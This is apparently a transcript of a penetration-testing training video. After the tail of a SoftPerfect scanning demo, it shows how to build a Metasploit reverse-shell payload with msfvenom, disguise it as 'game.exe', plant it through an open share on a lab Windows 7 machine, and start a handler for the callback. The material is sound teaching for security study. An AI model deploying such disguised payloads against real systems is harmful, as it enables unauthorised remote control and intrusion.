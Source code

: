 And finally, I could send it a message, create a batch file, or even delete it from my list of devices.

Summary 03:30-03:48
That's it for this demo. In this demo, we used SoftPerfect to scan and enumerate our subnet. We looked at some of the program's features, such as discovering a DHCP server and finding shared folders. Then we looked at some menu items.

### 5.3.9 Enumerate with Metasploit

Click one of the buttons to take you to that part of the video.

Using the Metasploit Framework 00:00-01:19
The Metasploit Framework is a tool used to find system vulnerabilities, create exploit code payloads for targeted systems, and leverage those exploits to control or manipulate those systems. It is a framework because it changes its functions based on the modules and parameters the user dictates, and can be updated and modified to meet specific needs. In this demo I'm going to demonstrate the basic capabilities of metasploit, create an executable exploit payload, and enumerate information on a compromised system.

To begin with, let's start with the basics of using the Metasploit Framework, or just Metasploit for short. The Metasploit packages have already been installed and configured as part of my Kali Linux installation. We have a system that we are going to target: a Windows 7 machine on this network. We have found that the Users directories on the Windows 7 machine are shared and allow guest (sometimes called NULL) access. We have already established a way to connect to that machine via Remote Desktop and can execute any code we want. This is where Metasploit comes in. We want to be able to come back to the machine and use it whenever we need information about the machine, its network connections, its users, etc. We are going to create an executable payload and upload it to the Windows 7 computer that will allow us to connect and run commands against it.

Build an Exploit Payload 01:19-02:23
We start by deciding what we are trying to accomplish with metasploit, and that is to install a persistent tool on the remote system that allows commands to be executed there. There is a metasploit tool for generating that executable payload, called msfvenom. From a terminal or shell, we execute 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.122.172 LPORT=4444 -f exe -o game.exe'. The -p identifies what payload from metasploit's library we want to use, in this case it is the standard remote command tool. The LHOST is the IP address where the targeted system will report back to, and the LPORT the port it will use. These are both on our KALI Linux machine, the one running metasploit. The -f is for the format for the output of the code creation, .exe here. And -o is for the name of the file: game.exe.

Exploit the Target Machine 02:23-05:21
We execute that command, and it builds our game.exe, which we can see here. Now, for this to work on the targeted machine, it needs to be uploaded to it. Since the target system has the Users directory shared, we can just copy it to the Downloads directory, like so. We don't need any of these extra windows, so I'll just close them. Before we execute the code on the Windows machine, we need to configure metasploit to handle the target systems connection when it "phones home". Again in a terminal or shell, we execute 'msfconsole'. After a few moments, it's ready for us. We need to tell it what parts of the framework we want to use, so we'll give a "use" command: 'use exploit/multi/handler'. This is a good general place to start for what we are doing. Now that we have the general portion of our framework to use, we need to define what payload we'll be using: 'set payload windows/meterpreter/reverse_tcp'. That should look familiar to the msfvenom command we used previously. We'll then check which options have been set and which need to be defined, so we run 'show options'. It lists three options we can work with. We only need to change one, the LHOST since we are already using the port we specified when we built the payload: 4444. To change LHOST we type: 'set LHOST 192.168.122.172', which is the IP address of this Kali Linux machine. We could also just type the network interface name, eth0. Let's show options again. Ok, everything looks good. Now we'll type 'run' and press enter. It is waiting for our target machine to connect.
